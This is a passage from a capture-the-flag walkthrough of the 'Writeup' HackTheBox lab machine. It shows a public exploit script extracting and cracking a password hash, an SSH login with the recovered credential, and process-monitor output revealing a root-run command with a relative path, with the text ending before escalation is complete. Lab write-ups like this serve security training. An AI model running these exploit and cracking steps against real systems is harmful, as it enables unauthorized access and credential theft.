 ~~~
By adding "--crack" and "-w wordlist", we can get the password hash and crack it.
{% highlight shell %}
root@kali:~# python 46635.py -u http://10.10.10.138/writeup --crack -w /usr/share/wordlists/rockyou.txt

[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
{% endhighlight %}

Now, we had following credential.
{% highlight shell %}
jkr:raykayjay9
{% endhighlight %}

By accessing via SSH, we can obtain a user shell as "jtk".
{% highlight shell %}
root@kali:~# ssh jkr@10.10.10.138
jkr@10.10.10.138's password: 
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ id
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
{% endhighlight %}

user.txt is in a directory "/home/jkr"
{% highlight shell %}
jkr@writeup:~$ pwd
/home/jkr

jkr@writeup:~$ cat user.txt 
d4e493fd4068afc9eb1aa6a55319f978
{% endhighlight %}

### 3. Getting Root

By running <a href="https://github.com/DominicBreuker/pspy">pspy</a> and login with another windows, we can find that When someone login, following command runs.
{% highlight shell %}
2019/10/02 12:49:04 CMD: UID=0    PID=5837   | sshd: [accepted]
2019/10/02 12:49:04 CMD: UID=0    PID=5838   | sshd: [accepted]  
2019/10/02 12:49:08 CMD: UID=0    PID=5839   | sshd: jkr [priv]  
2019/10/02 12:49:08 CMD: UID=0    PID=5840   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2019/10/02 12:49:09 CMD: UID=0    PID=5841   | run-parts --lsbsysinit /etc/update-motd.d 
2019/10/02 12:49:09 CMD: UID=0    PID=5842   | /bin/sh /etc/update-motd.d/10-uname 
2019/10/02 12:49:09 CMD: UID=0    PID=5843   | sshd: jkr [priv]  
{% endhighlight %}

In following command, only 'run-parts' is using relative path.<br>
We can take advantage of this.<br>
{% highlight shell %}
2019/10/02 12:49:09 CMD: UID=0    PID=5841   | run-parts --lsbsysinit /etc/update-motd.d 
~~~